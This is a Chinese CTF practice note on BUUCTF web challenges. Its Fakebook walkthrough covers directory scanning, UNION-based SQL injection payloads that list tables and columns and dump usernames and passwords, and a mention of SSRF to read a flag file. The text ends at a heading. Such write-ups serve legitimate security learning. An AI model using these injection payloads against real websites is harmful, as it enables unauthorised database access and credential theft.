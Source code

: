 title: buuctf4月28日
date: 2024-4-28 16:30:25
tags: [buuctf,ctf]
categories: 刷题笔记

## [CISCN2019 华北赛区 Day2 Web1]Hack World

### 盲注：脚本

## [网鼎杯 2018]Fakebook

先用dirsearch扫一遍，有一个robots.txt，里面有个文件，直接打开下载源码，发现

![image-20240427123209441](C:\Users\86182\assets\image-20240427123209441.png)

先注册吧，注册进去有个超链接的名字点进去

![image-20240427123321011](C:\Users\86182\assets\image-20240427123321011.png)

有参数可以注入，sql注入，发现是数字型，且在第二个数字这里有回显，直接可以注入，找表，列，以及数据

/view.php?no=0 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=’fakebook’–+得到表名**

**user/view.php?no=0 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=’fakebook’ and table_name=’users’–+得到列名

/view.php?no=0 union/**/select 1,group_concat(no,username,passwd,data),3,4 from fakebook.users –+得到数据

发现数据中有个序列化的数据

![image-20240427123819254](C:\Users\86182\assets\image-20240427123819254.png)

与下载文件重合name,blog,age这三个都是那个文件的参数，这里我们并没有得到flag，而是我们个人资料的反序列化数据，因为在数据中存在我们的博客地址，所以我们尝试使用ssrf读取flag，但是我们并不知道flag所在文件夹，用dirsearch扫描发现flag.php和robots.txt

知识点：ssrf漏洞：

